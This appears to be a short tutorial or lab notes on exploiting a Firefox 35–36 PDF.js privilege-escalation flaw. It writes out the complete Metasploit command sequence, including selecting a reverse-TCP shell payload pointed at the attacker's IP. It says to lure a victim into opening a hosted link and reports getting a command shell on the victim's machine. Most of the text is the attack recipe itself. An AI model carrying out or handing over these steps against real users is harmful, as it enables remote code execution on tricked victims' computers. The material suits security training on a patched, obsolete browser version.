


firefox version 35-36 bug
Description:
http://www.zerodayinitiative.com/advisories/ZDI-15-110/
https://www.rapid7.com/db/modules/exploit/multi/browser/firefox_pdfjs_privilege_escalationThis
exploit can execute arbitrary code by abusing a flaw existing in the way Firefox handles documents loaded through
the
resource: URL .
A Metasploit module that use this exploit is
“exploit/multi/browser/firefox_pdfjs_privilege_escalation” that in this case is used to exploits the Mozilla PDF.js
PDF file viewer.
How we can see from the description this exploit works on Firefox versions 35-36
https://ftp.mozilla.org/pub/firefox/releases/35.0/win32/en-US/
here we can find the vulnerable version
service postgresql start
msfconsole
use exploit/multi/browser/firefox_pdfjs_privilege_escalation
show options
set SRVHOST <AttackerIP>
show payloads
set payload firefox/shell_reverse_tcp
show options
set LHOST <AttackerIP>
run
Metasploit automatically
starts a web server, which hosts a
web page containing the exploit itself. Now
we just need to lure the victim into opening the address
After that the user have been clicked on
the link, a command shell is been opened in Metasploit in another session(session 2 in this case)
The shell
obtained is a simple command prompt shell, whereby, we can run any command we desire (like "systeminfo"
like we have done)
back #use after that we have obtained the session
sessions
sessions -i <sessionID>
....
